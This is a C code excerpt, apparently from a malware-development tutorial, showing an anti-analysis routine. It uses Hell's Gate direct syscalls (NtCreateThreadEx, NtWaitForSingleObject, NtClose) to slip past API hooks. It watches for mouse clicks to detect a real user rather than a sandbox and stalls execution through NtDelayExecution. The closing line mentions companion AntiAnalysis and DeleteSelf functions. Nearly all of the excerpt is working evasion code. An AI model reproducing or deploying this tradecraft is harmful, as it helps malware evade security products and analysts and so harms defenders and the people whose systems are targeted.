 ```
	while (i <= 10) {


		printf("[#] Monitoring Mouse-Clicks For %d Seconds - Need 6 Clicks To Pass\n", (dwMilliSeconds / 1000));

		// Creating a thread that runs 'MouseClicksLogger' function
		HellsGate(g_Sys.NtCreateThreadEx.wSystemCall);
		if ((STATUS = HellDescent(&hThread, THREAD_ALL_ACCESS, NULL, (HANDLE)-1, MouseClicksLogger, NULL, NULL, NULL, NULL, NULL, NULL)) != 0) {
			printf("[!] NtCreateThreadEx Failed With Error : 0x%0.8X \n", STATUS);
			return FALSE;
		}

		// Waiting for the thread for 'dwMilliSeconds'
		HellsGate(g_Sys.NtWaitForSingleObject.wSystemCall);
		if ((STATUS = HellDescent(hThread, FALSE, &DelayInterval)) != 0 && STATUS != STATUS_TIMEOUT) {
			printf("[!] NtWaitForSingleObject Failed With Error : 0x%0.8X \n", STATUS);
			return FALSE;
		}

		HellsGate(g_Sys.NtClose.wSystemCall);
		if ((STATUS = HellDescent(hThread)) != 0) {
			printf("[!] NtClose Failed With Error : 0x%0.8X \n", STATUS);
			return FALSE;
		}

		// Unhooking
		if (g_hMouseHook && !UnhookWindowsHookEx(g_hMouseHook)) {
			printf("[!] UnhookWindowsHookEx Failed With Error : %d \n", GetLastError());
			return FALSE;
		}

		// Delaying execution for specific amount of time
		if (!DelayExecutionVia_NtDE((FLOAT)(i / 2)))
			return FALSE;

		// If the user clicked more than 5 times, we return true
		if (g_dwMouseClicks > 5)
			return TRUE;

		// If not, we reset the mouse-clicks variable, and monitor the mouse-clicks again
		g_dwMouseClicks = NULL;

		// Increment 'i', so that next time 'DelayExecutionVia_NtDE' will wait longer
		i++;
	}

	return FALSE;
}

```
`Common.h` must be updated to include the prototype for `AntiAnalysis` as well as defining `NEW_STREAM` which is required by the `DeleteSelf` function.
